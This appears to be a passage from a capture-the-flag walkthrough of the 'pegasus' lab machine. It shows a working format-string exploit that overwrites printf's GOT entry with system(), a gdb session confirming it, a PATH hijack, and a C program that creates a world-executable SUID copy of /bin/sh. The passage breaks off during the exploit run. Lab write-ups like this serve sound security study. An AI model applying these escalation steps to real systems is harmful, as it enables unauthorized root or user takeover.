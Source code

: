 ```bash
# prep the input file
mike@pegasus:~$ printf '1\n1\n\xfc\x9b\x04\x08\xfe\x9b\x04\x08%%36952u%%8$n%%44966u%%9$n' > t
mike@pegasus:~$

# run it in the debugger
(gdb) r <t
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/mike/my_first <t
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit

Selection: 
Enter first number: Enter second number: Error details: ����

[... snip ...]

sh: 1: Selection:: not found

Program received signal SIGSEGV, Segmentation fault.
0x08c3f98c in ?? ()

# check where the GOT points to for printf()
(gdb) x/x 0x08049bfc
0x8049bfc <printf@got.plt>: 0x40069060

# confirm system() is still there :)
(gdb) p system
$1 = {<text variable, no debug info>} 0x40069060 <system>
```

The binary crashes with `sh: 1: Selection:: not found`, meaning that it is now trying to run `system("Selection:")` instead of `printf("Selection:")` due to the GOT override.

#### finishing the exploit
From here the exploit is pretty easy. We can use some $PATH trickery in our current shell to get `Selection:` to actually mean something, like prepare a small SUID C shell perhaps? :)

I quickly compiled some C wrapper code to prepare a shell and ran the exploit.

```bash
# Prep Selection: to make a SUID shell for john
# and modify PATH
mike@pegasus:~$ cat tojohn.c 
#include <stdio.h>
int main()
{
    system("cp /bin/sh /tmp/tojohn");
    system("chmod 4777 /tmp/tojohn");
}
mike@pegasus:~$ gcc tojohn.c -o "Selection:" 
mike@pegasus:~$ export PATH=/home/mike/:$PATH

# run the exploit...
mike@pegasus:~$ printf '1\n1\n\xfc\x9b\x04\x08\xfe\x9b\x04\x08%%36952u%%8$n%%44966u%%9$n' | ./my_first 
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
```